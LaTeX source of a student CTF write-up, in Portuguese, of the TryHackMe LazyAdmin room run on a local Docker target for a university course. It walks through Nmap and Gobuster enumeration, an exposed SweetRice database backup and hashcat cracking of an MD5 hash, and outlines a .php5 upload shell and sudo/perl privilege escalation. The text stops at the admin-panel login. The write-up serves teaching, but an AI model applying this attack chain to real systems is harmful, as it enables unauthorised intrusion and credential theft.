%==============================================================================
% Write-Up de CTF - LazyAdmin (TryHackMe)
% Materia : CIC0087 - Topicos Avancados em Computadores - Turma 04 - 2026/2
% Depto.  : Departamento de Ciencias da Computacao
% Baseado na "Metodologia para Construcao de Write-Ups em CTF"
%
% Compilacao:  pdflatex main.tex   (rodar 2x para atualizar o Sumario)
%==============================================================================
\documentclass[12pt,a4paper]{article}

%------------------------- Codificacao e idioma -------------------------------
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage[brazil]{babel}

%------------------------- Fonte Times New Roman ------------------------------
\usepackage{newtxtext}   % corpo em Times
\usepackage{newtxmath}   % matematica em Times

%------------------------- Margens (minimo 2 cm) ------------------------------
\usepackage[a4paper,margin=2cm,headheight=15pt,includehead,includefoot]{geometry}

%------------------------- Utilitarios ----------------------------------------
\usepackage{graphicx}
\graphicspath{{img/}{./img/}}
\usepackage{xcolor}
\usepackage{float}
\usepackage[hidelinks]{hyperref}
\usepackage{fancyhdr}
\usepackage{listings}
\usepackage[most]{tcolorbox}
\usepackage{caption}
\usepackage{enumitem}
\usepackage{setspace}

\hypersetup{
  colorlinks=true,
  linkcolor=black,
  urlcolor=blue!60!black,
  citecolor=black
}
\onehalfspacing

%============================= METADADOS =======================================
\newcommand{\desafioNome}{LazyAdmin}
\newcommand{\plataforma}{TryHackMe}
\newcommand{\dificuldade}{Fácil}
\newcommand{\dataResolucao}{28/10/2026}
\newcommand{\autorNome}{Luís Eduardo Curi Serra}

% Dados academicos (fixos para a disciplina)
\newcommand{\materia}{CIC0087 -- Tópicos Avançados em Computadores -- Turma 04 -- 2026/2}
\newcommand{\departamento}{Departamento de Ciências da Computação}
\newcommand{\matricula}{251033574}
\newcommand{\professor}{Roberto Rodrigues Filho}
\newcommand{\universidade}{Universidade de Brasília}
%===============================================================================

%------------------------- Cabecalho e rodape ---------------------------------
\pagestyle{fancy}
\fancyhf{}
\lhead{\small\itshape \desafioNome}
\rhead{\small\itshape \autorNome}
\lfoot{\small \materia}
\rfoot{\small Página \thepage}
\renewcommand{\headrulewidth}{0.4pt}
\renewcommand{\footrulewidth}{0.4pt}

%------------------------- Estilo dos blocos de codigo ------------------------
\definecolor{codebg}{gray}{0.95}
\definecolor{codeframe}{gray}{0.75}
\definecolor{cmt}{RGB}{100,120,100}
\definecolor{kw}{RGB}{0,0,150}
\definecolor{str}{RGB}{150,50,50}

\lstdefinestyle{shell}{
  backgroundcolor=\color{codebg},
  basicstyle=\ttfamily\small,
  keywordstyle=\color{kw}\bfseries,
  commentstyle=\color{cmt}\itshape,
  stringstyle=\color{str},
  frame=single,
  rulecolor=\color{codeframe},
  breaklines=true,
  breakatwhitespace=false,
  postbreak=\mbox{\textcolor{codeframe}{$\hookrightarrow$}\space},
  columns=fullflexible,
  keepspaces=true,
  showstringspaces=false,
  tabsize=2,
  captionpos=b,
  xleftmargin=0.4em,
  xrightmargin=0.4em,
  aboveskip=1em,
  belowskip=1em,
}
\lstset{style=shell}

% Atalho: comando de terminal em linha
\newcommand{\cmd}[1]{\lstinline[style=shell]|#1|}

% Ambiente para OUTPUT (fundo levemente diferente, fonte menor)
\lstdefinestyle{output}{
  style=shell,
  backgroundcolor=\color{gray!8},
  basicstyle=\ttfamily\footnotesize,
  keywordstyle=\ttfamily,
}

%------------ Caixa de "becos sem saida" (tentativas sem sucesso) --------------
\definecolor{deadendbg}{RGB}{255,248,240}
\definecolor{deadendframe}{RGB}{193,108,44}
\newtcolorbox{becosemsaida}[1][Tentativas sem sucesso (becos sem saída)]{%
  enhanced, breakable,
  colback=deadendbg, colframe=deadendframe,
  colbacktitle=deadendframe, coltitle=white,
  boxrule=0.6pt, arc=2pt,
  left=8pt, right=8pt, top=6pt, bottom=6pt,
  fonttitle=\bfseries\small,
  title={#1}%
}

%===============================================================================
\begin{document}

%============================= 2.1 CAPA =========================================
\begin{titlepage}
  \thispagestyle{empty}
  \centering
  {\scshape \universidade \par}
  {\scshape \departamento \par}
  \vspace{0.4cm}
  {\small \materia \par}
  \vspace{2.5cm}

  \rule{\linewidth}{0.4pt}\par
  \vspace{0.6cm}
  {\huge \bfseries Write-Up: \desafioNome \par}
  \vspace{0.4cm}
  {\large Segurança Ofensiva --- Capture The Flag \par}
  \vspace{0.6cm}
  \rule{\linewidth}{0.4pt}\par

  \vspace{2.0cm}
  \begin{tabular}{rl}
    \textbf{Plataforma:}       & \plataforma       \\[4pt]
    \textbf{Dificuldade:}      & \dificuldade      \\[4pt]
    \textbf{Data de resolução:}& \dataResolucao    \\
  \end{tabular}

  \vfill

  \begin{tabular}{rl}
    \textbf{Autor:}     & \autorNome  \\[4pt]
    \textbf{Matrícula:} & \matricula  \\[4pt]
    \textbf{Professor:} & \professor  \\
  \end{tabular}

  \vspace{1.2cm}
  {\small \today \par}
\end{titlepage}

%============================= 2.2 SUMARIO ======================================
\newpage
\tableofcontents
\thispagestyle{fancy}
\newpage

%============================= 2.3 VISAO GERAL ==================================
\section{Visão Geral}
\textbf{LazyAdmin} é uma máquina Linux de dificuldade \emph{fácil} que expõe
apenas SSH (22) e um servidor web Apache (80). O vetor é inteiramente
\textbf{web}: a enumeração com Gobuster revela a aplicação \textbf{SweetRice}
(CMS) em \texttt{/content}, e uma má configuração deixa o \textbf{backup do banco
de dados} acessível em \texttt{/content/inc/mysql\_backup/}, de onde se extrai o
usuário \texttt{manager} e o \emph{hash} MD5 da senha. O \emph{hash} é quebrado
\emph{offline} (\texttt{hashcat} + \emph{rockyou}), revelando a senha em texto
claro. Com essas credenciais autentica-se no painel administrativo do SweetRice
(\texttt{/content/as/}) e abusa-se do \emph{upload} do \emph{Media Center} ---
que filtra a extensão \texttt{.php} --- enviando um \emph{shell} com extensão
\texttt{.php5}, obtendo \textbf{execução remota de código} como \texttt{www-data}.
A enumeração local (\cmd{sudo -l}) mostra que \texttt{www-data} pode executar,
sem senha, \cmd{/usr/bin/perl /home/itguy/backup.pl}; como esse script chama
\texttt{/etc/copy.sh}, que é \textbf{gravável por todos}, sobrescreve-se o arquivo
para criar uma cópia SUID do \texttt{bash} e escala-se a \texttt{root}. Fluxo
geral: reconhecimento (Nmap + Gobuster) $\rightarrow$ \emph{backup} exposto
$\rightarrow$ quebra de \emph{hash} $\rightarrow$ \emph{login} no SweetRice
$\rightarrow$ \emph{upload} \texttt{.php5} $\rightarrow$ \emph{reverse shell}
\texttt{www-data} $\rightarrow$ \texttt{sudo}/\texttt{perl} com script gravável
$\rightarrow$ \texttt{root}.

\medskip
\noindent\textbf{Observação sobre o ambiente.} A sala foi executada localmente a
partir da imagem Docker da aplicação (\emph{relaxed-admin-room}); por isso o alvo
responde em \texttt{127.0.0.1}.

%============================= 2.4 RECONHECIMENTO ===============================
\section{Reconhecimento}

\subsection{Varredura de portas}
A varredura inicial identifica os serviços expostos e orienta as fases seguintes.

\begin{lstlisting}[language=bash,caption={Varredura de portas com Nmap.}]
nmap -T4 127.0.0.1
\end{lstlisting}

Apenas duas portas abertas: \textbf{22/tcp (SSH)} e \textbf{80/tcp (HTTP)}. Sem
material de credencial inicial, o SSH não é um vetor imediato; o foco recai sobre
o serviço web.

\begin{lstlisting}[style=output,caption={Portas abertas retornadas pela varredura.}]
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
\end{lstlisting}

\subsection{Enumeração do serviço web}
A raiz (\texttt{index.html}) não traz conteúdo útil. Executa-se o Gobuster com a
\emph{wordlist} \texttt{common.txt} e as extensões \texttt{php}, \texttt{txt} e
\texttt{html}, o que revela o diretório \texttt{/content}.

\begin{lstlisting}[language=bash,caption={Enumeração de diretórios e arquivos com Gobuster.}]
gobuster dir -u http://127.0.0.1/ -w /usr/share/wordlists/dirb/common.txt -x php,txt,html
\end{lstlisting}

\begin{lstlisting}[style=output,caption={Achado principal do Gobuster na raiz.}]
content      (Status: 301)  [--> http://127.0.0.1/content/]
index.html   (Status: 200)
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{nmap_gobuster.png}
  \caption{Varredura Nmap (portas 22 e 80) e início da enumeração com Gobuster,
  que revela o diretório \texttt{/content}.}
  \label{fig:nmap_gobuster}
\end{figure}

Em \texttt{/content} identifica-se a aplicação \textbf{SweetRice}, confirmada pelo
arquivo \texttt{/content/js/SweetRice.js}. Uma nova rodada de Gobuster sobre
\texttt{/content} mapeia a estrutura do CMS.

\begin{lstlisting}[language=bash,caption={Enumeração do diretório /content.}]
gobuster dir -u http://127.0.0.1/content -w /usr/share/wordlists/dirb/common.txt -x php,txt,html
\end{lstlisting}

\begin{lstlisting}[style=output,caption={Estrutura do SweetRice exposta pelo Gobuster.}]
_themes     (Status: 301)   attachment  (Status: 301)   inc         (Status: 301)
as          (Status: 301)   images      (Status: 301)   js          (Status: 301)
changelog.txt (Status: 200) index.php   (Status: 200)   license.txt (Status: 200)
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{gobuster_content.png}
  \caption{Enumeração de \texttt{/content}: diretórios do SweetRice, incluindo
  \texttt{as} (painel administrativo), \texttt{attachment} e \texttt{inc}.}
  \label{fig:gobuster_content}
\end{figure}

%============================= 2.5 EXPLORACAO ===================================
\section{Exploração}

\subsection{Backup do banco de dados exposto}
O diretório \texttt{/content/inc/} contém \texttt{mysql\_backup/}, acessível
diretamente pelo navegador --- uma \textbf{divulgação de backup} típica do
SweetRice 1.5.1. O arquivo \texttt{.sql} baixado traz, em texto claro, o usuário
administrador e o \emph{hash} da senha.

\begin{lstlisting}[style=output,caption={Credenciais extraídas do backup (hash mascarado).}]
admin  : manager
passwd : <HASH>      # MD5 de 32 caracteres
\end{lstlisting}

\subsection{Quebra do hash}
O \cmd{hashid} classifica o \emph{hash} como \textbf{MD5}; em seguida o
\texttt{hashcat} (modo 0, \emph{wordlist} \emph{rockyou}) o quebra, e o resultado
é recuperado do \emph{potfile}.

\begin{lstlisting}[language=bash,caption={Identificação e quebra do hash MD5.}]
hashid -m senha.txt
hashcat -m 0 -a 0 senha.txt /usr/share/wordlists/rockyou.txt
cat ~/.local/share/hashcat/hashcat.potfile   # -> <HASH>:<PASSWORD>
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{hash_passwd.png}
  \caption{\texttt{hashid} identifica o MD5 e o \texttt{hashcat} recupera a senha
  do usuário \texttt{manager} a partir da \emph{wordlist} \emph{rockyou}.}
  \label{fig:hash_passwd}
\end{figure}

\begin{becosemsaida}
\begin{itemize}[leftmargin=1.4em,itemsep=2pt,topsep=2pt]
  \item Tentei reutilizar \texttt{manager}:\texttt{<PASSWORD>} diretamente no SSH
        (\cmd{ssh manager@127.0.0.1}): \emph{Permission denied}. O SSH não é o
        vetor --- as credenciais servem ao painel web.
\end{itemize}
\end{becosemsaida}

\subsection{Login no painel e upload do shell}
O painel administrativo do SweetRice fica em \texttt{/content/as/}. Autenticado
como \texttt{manager}, acessa-se o \textbf{Media Center}, que oferece \emph{upload}
de arquivos (limite de 2\,MB) com opção de extrair \texttt{.zip}.

\begin{figure}[H]
  \centering
